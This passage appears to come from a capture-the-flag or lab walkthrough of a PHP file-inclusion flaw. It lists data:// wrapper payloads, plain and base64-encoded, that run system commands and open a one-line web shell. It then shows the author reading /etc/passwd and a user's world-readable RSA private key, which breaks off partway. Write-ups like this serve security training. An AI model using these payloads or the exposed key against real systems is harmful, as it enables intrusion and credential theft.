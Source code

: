 ``` plain
# simple RFI
page=data://text/plain, <?php system("whoami");?>

# base64 encoded RFI
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTs/Pg==

# mini shell
page=data://text/plain,<?php system($_GET[cmd]);?>&cmd=id

# base64 + URL encoded mini shell (didn't work without URL encoding)
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8%2B&cmd=id
```

And we are free to enumerate! Next thing I did was to read */etc/passwd* (look at it in the source code of the page for better readability). This gave me the name of 2 users on the machine:

``` plain
---
mauk:x:1001:1001::/home/mauk:/bin/bash
jetta:x:1002:1002::/home/jetta:/bin/bash
```

Next I looked around some more, and when listing the home directories, I noticed that mauk's home folder permissions aren't what they should be (but good for us!):

``` plain
drwx------. 3 jetta jetta 4096 Jul  9  2013 jetta
drwxr-xr-x. 3 mauk  mauk  4096 Jul  9  2013 mauk
```

Looking in mauk's directory, this is interesting:

```
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh
```

Even better, inside there is mauk's private SSH key!

``` plain
-rw-r--r--. 1 mauk mauk 1679 Feb 24  2013 id_rsa

```

And we can read it:

``` plain
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA5sm/rHHoCaTtncp7DCSIJlWnUg9eyfpJ3czIn18U1lv5ZQf0
9yGaDxafualdpXCNMo32mVQb9XQ7c2N7sdSdAjsgSjV0YG/IZGZNRyFS58YJQRdZ
5wRu6eKAlQVss/Lq3zwuBsT8Om/1/cKpVgB3ukPtKA97M5iSxL1VWWXg6GVoJ6f6
zIio/DZMFCxOU9Wyl7i8ssEoBxQlmgZh9pnYYhwo7Rf3RXBJeHDpuc1g+vol2vRN
ALXqIBlItS08MhoTaS0SK+pD98OU34M745U5Mo4TgFjYc+eD7xewyduWuS5IuFPd
xfcHkt0cQ7he0AYHuk5ooCI4ca3B0xcSZILWqwIDAQABAoIBAHNnIMxXLQNdkGAd
tsfMoLQikodrHif7WuJpG0zuG5pQ5XWKtAi7qbCvzHDnaudmT4SfDld/gneLhord
jSXQPi62aCATeL0cSGVD7pKJ7E3vbgM5bQAi7F9RnqBl1QRqjN3R1uYVrFaAU85v
f4N8umHOw5ELpLyZJ5LvZfVNB1jNIRpxINhAP+/kVslsZ93qyssljokKFMy/uOIH
r+SV3b3Zfogvg67AJ/g08jtCjYdbr7egPP2TYPMRz5fbTWCrc5m4EBvf5h5pP/w6
Go12YacY2lbF5wzbFUjIdNyF7RZHFDbSB0bM9aCDmXTfywlFswYdb7HyIZrstQ9W
BzWhIYkCgYEA/tUe/rhUcEYEXkhddkXWARcX0t9YNb8apY7WyVibiSyzh33mscRG
MLZoJJri5QMvNdYkNGr5zSGEo270Q2CzduKCbhVjXIybIbmggAc/80gZ5E8FDgJ7
szUKJL37BxXbAAYFIZkzXvc76Ve+vZvLfKMTbQqXTgKkQpGyRHLVOz8CgYEA59ht
YicNlz2yM26mpGqQNLGtEC1RmyZbPn03yJRTBJG5/sOlMw0RI+cMEiqyo7MKHmMZ
+Z7VKVtk8xEQbUy6EAeeSri/Fh1xiKRtlwwQSU1q2ooPOmdHyUp+rhseoPaDAJgy
3KJYbkQMzHVt6KhsWVTEnrz0VtxiTzRu7p2Y5ZUCgYEAt5X2RG+rdU8b6oibvI9H
Q3XNlf+NXvsUSV2EY33QX5yyodQUFNFf98wRbv2epHoM0u45GwJOgHe7RLq0gq3x
3J4GdSQ3dv9c64j9lf6jFbNF4/MBozwqvcpiSmILrOkT4wpzO+dQ2QOoR80M/zB0
ApDBd/b/VhYVHFg2Y5WPBKUCgYBn47SIMgXGCtBqeZ/UtyetZRyuzg/uXQ6v/r5b
dBOLTZ2xyouhR66xjtv63AU2k4jqOvAtyf2szZZ70N6yi5ooirFkvEpsJ39zgnLV
J4O4xScnjIvsWNFzIp2HeQGNkUj8oDbSZTEJIBc4GzrH8Yizsud0VimLLrAi29UF
```